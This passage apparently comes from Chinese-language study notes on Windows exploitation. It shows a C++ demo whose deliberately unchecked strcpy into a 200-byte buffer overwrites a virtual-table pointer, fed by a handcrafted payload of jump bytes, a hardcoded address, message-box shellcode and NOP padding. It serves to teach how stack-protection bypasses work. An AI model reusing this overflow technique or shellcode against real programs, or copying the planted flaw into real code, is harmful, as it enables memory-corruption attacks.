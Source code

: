 

-   由上图可知，函数中的buf变量发生溢出的时候有可能影响虚表指针，如果可以控制虚表指针，将其指向我们shellcode，就可以在程序调用时控制程序的流程

```c++
#include "stdafx.h"
#include "string.h"

class GSVirtual {
public :
	void gsv(char * src)
	{
		char buf[200];
		strcpy(buf, src);    //专门构造的漏洞越界修改虚表地址
        //虚函数,走虚表调用
		bar();               // virtual function call
	}
	virtual void  bar()
	{
	}
};
int main()
{

	GSVirtual test;
	test.gsv(
		"\xeb\x06\x90\x90"	
		"\x6e\xd0\x1c\x77"
        
        
		"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
		"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
		"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
		"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
		"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
		"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
		"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
		"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
		"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
		"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
		"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
        
        
        "\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x04\x21\x40"
		);
	return 0;
}
```

![img](./notesimg/1659450169282-ce52dec2-a723-409c-a152-601033dee3d4.png)
